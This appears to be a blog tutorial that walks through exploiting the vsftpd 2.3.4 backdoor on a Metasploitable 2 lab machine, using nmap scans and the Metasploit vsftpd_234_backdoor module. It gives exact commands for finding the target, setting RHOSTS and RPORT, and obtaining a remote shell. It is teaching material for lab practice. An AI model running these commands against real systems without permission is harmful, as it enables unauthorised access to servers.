 ```yaml
---

title: "Exploiting vsftpd 2.3.4 on Metasploitable 2 using Metasploit" 
classes: wide 
header: 
    teaser: assets/images/metasploit/logo.jpeg 
    overlay_image: assets/images/metasploit/logo.jpeg 
    overlay_filter: 0.5 
ribbon: Red 
excerpt: "A step-by-step guide to exploiting the vsftpd 2.3.4 backdoor on Metasploitable 2 using Kali Linux and Metasploit." 
description: "A step-by-step guide to exploiting the vsftpd 2.3.4 backdoor on Metasploitable 2 using Kali Linux and Metasploit." 
categories:
    - Exploitation
    - Penetration Testing 
tags:
    - Metasploit
    - Ethical Hacking
    - Nmap
    - Cybersecurity 
toc: true 
toc_sticky: true 
toc_label: "On This Blog" 
toc_icon: "biohazard"

---
```


# Intro

In this post, I’ll show how to **find, analyze, and exploit a vulnerability in vsftpd 2.3.4** (an old FTP server with a backdoor) using **Kali Linux** and **Metasploitable 2**. This tutorial is for **educational purposes only** and should only be used in a controlled lab environment. Never test without permission.

---

## **🔍 Step 1: Find the Target’s IP**

First, we need to identify the IP address of our **Metasploitable 2** machine. Run:

```bash
ip a  # On Linux
ifconfig  # Alternative command
```

On **Kali**, use:

```bash
nmap -sn 192.168.93.0/24
```

This will **list all devices** on the network, helping us locate Metasploitable 2 (e.g., **192.168.93.129**).

---

## **🔎 Step 2: Scan for Open Ports**

Once we have the target's IP, let’s **scan for open services**:

```bash
nmap -sV -p- 192.168.93.129
```

🔹 `-sV`: Detects service versions\
🔹 `-p-`: Scans **all** 65,535 ports

🚀 **Result:** Port **21 (FTP)** is open, running **vsftpd 2.3.4**, which is known to have a **backdoor**.

---

## **📌 Step 3: Exploit vsftpd 2.3.4**

Now, we use **Metasploit** to exploit the vulnerable service:

```bash
msfconsole
```

Select the exploit:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

Check the required options:

```bash
show options
```

Set the **target IP (RHOSTS)** and the **target port (RPORT)**:

```bash
set RHOSTS 192.168.93.129
set RPORT 21
```

Run the exploit:

```bash
exploit
```

If successful, this gives us a **remote shell** on the target! 🎯

---

## **🖥️ Step 4: What Can We Do With the Shell?**

Now that we have access, we can: ✔️ List files: `ls`\
✔️ Check users: `whoami`\
✔️ Read system info: `uname -a`

This is a basic **proof of concept (PoC)** of how an attacker can exploit outdated services.

---

## **⚠️ Ethical Hacking Reminder**

🔹 This tutorial is **for educational purposes only**.\
🔹 Always have **explicit permission** before testing security.\
🔹 Keep your systems **updated** to avoid these vulnerabilities.

---

## **📚 More Resources**

🔗 Metasploitable 2: [https://sourceforge.net/projects/metasploitable/](https://sourceforge.net/projects/metasploitable/)\
🔗 Metasploit Docs: [https://docs.metasploit.com/](https://docs.metasploit.com/)\
🔗 Nmap: [https://nmap.org/](https://nmap.org/)

Would you like to see more tutorials like this? Let me know in the comments! 🚀🔍
